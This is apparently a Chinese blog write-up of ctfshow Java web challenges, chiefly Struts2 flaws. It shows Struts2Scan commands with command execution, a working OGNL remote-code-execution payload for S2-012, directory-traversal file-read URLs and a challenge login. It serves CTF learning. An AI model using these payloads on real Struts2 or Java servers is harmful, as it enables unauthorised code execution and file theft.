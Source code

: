 ﻿---
title: ctfshow web入门 (java)
categories: ctfshow
---
# Struts 2 
Struts2是一个基于MVC设计模式的`Web应用框架`，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。其全新的Struts 2的体系结构与Struts 1的体系结构差别巨大。Struts 2以WebWork为核心，采用拦截器的机制来处理用户的请求，这样的设计也使得业务逻辑控制器能够与ServletAPI完全脱离开，所以Struts 2可以理解为WebWork的更新产品。虽然从Struts 1到Struts 2有着非常大的变化，但是相对于WebWork，Struts 2的变化很小。

<!--more-->
---
```
s2-001
s2-007
s2-008
s2-009
s2-012
s2-013
s2-015
s2-016
s2-019
s2-029
s2-032
s2-045
s2-046
s2-048
s2-052
```
---

![](https://img-blog.csdnimg.cn/20210404194504551.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---

# 通杀脚本工具

网上的 poc都有，工具用起来很方便

struts2:

![](https://img-blog.csdnimg.cn/20210404194520756.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


struts2-scan
```
py Struts2Scan.py -u http://6e12ef79-3cca-48ec-b6d2-ee430f9c5901.challenge.ctf.show:8080/S2-005/example/HelloWorld.action
```
![](https://img-blog.csdnimg.cn/20210404194649664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

```
py Struts2Scan.py -u http://6e12ef79-3cca-48ec-b6d2-ee430f9c5901.challenge.ctf.show:8080/S2-005/example/HelloWorld.action -n s2-005 --exec
```

执行env

> env命令用于显示系统中已存在的环境变量，以及在定义的环境中执行指令。该命令只使用"-"作为参数选项时，隐藏了选项"-i"的功能。若没有设置任何选项和参数时，则直接显示当前的环境变量。 如果使用env命令在新环境中执行指令时，会因为没有定义环境变量"PATH"而提示错误信息"such file or directory"。此时，用户可以重新定义一个新的"PATH"或者使用绝对路径。


![](https://img-blog.csdnimg.cn/20210404194704376.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)



# 283
Struts2 showcase远程代码执行漏洞:混个脸熟

![](https://img-blog.csdnimg.cn/20210404194713379.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 284
s2-012

![](https://img-blog.csdnimg.cn/20210404194721875.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

poc:
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



![](https://img-blog.csdnimg.cn/20210404194734506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)



# 295

[s2-048](https://www.jianshu.com/p/356291fb26a2)

![](https://img-blog.csdnimg.cn/20210404194751522.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---

# 298

java decompiler反编译class文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413160349363.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

跟进：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413160427413.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
访问：
>/ctfshow/login?username=admin&password=ctfshow



# 299-300

/view-source?file=../../../../../fl3g

/view-source?file=../../../../../f1bg



## 关于WEB-INF/web.xml
在了解WEB-INF/web.xml泄露之前，我们先要知道，web.xml是一个什么样的文件，以及它的泄露会出现哪些问题。
咱们先来看看WEB-INF这个文件夹
WEB-INF主要包含以下内容：

- /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
- /WEB-INF/classes/：包含所有的 Servlet 类和其他类文件，类文件所在的目录结构与他们的包名称匹配。
- /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
- /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
- /WEB-INF/database.properties：数据库配置文件。
  

WEB-INF/web.xml泄露的起因就是我们在使用网络架构的时候，对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致web.xml等文件能够被读取。
